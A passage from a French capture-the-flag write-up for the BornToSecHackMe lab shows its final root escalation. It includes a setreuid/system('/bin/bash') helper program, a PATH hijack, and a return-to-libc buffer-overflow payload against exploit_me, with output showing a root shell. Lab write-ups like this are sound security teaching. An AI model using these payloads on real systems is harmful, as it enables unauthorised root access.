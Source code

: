 J'ai d'abord compilé ce programme sous le nom `4` :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setreuid(0, 0);
  setregid(0, 0);
  system("/bin/bash");
  return 0;
}
```

J'ajoute le dossier courant dans le path et on exploite :

```shellsession
zaz@BornToSecHackMe:~$ export PATH=.:$PATH
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "A"*140 + "\x60\xb0\xe6\xb7\x28\x90\x04\x08\x28\x90\x04\x08"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���((�
root@BornToSecHackMe:~# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
root@BornToSecHackMe:~# cat /root/README
CONGRATULATIONS !!!!
To be continued...
```

Après les 140 caractères se trouvent l'adresse de `system()` (qui écrase l'adresse de retour), du junk puis l'adresse de notre chaine.

## Et voilà

C'était très intéressant de pouvoir utiliser `angr` :) Le CTF est plutôt bien lui aussi mais les indications manquantes, les erratas et les solutions multiples laissent à désirer.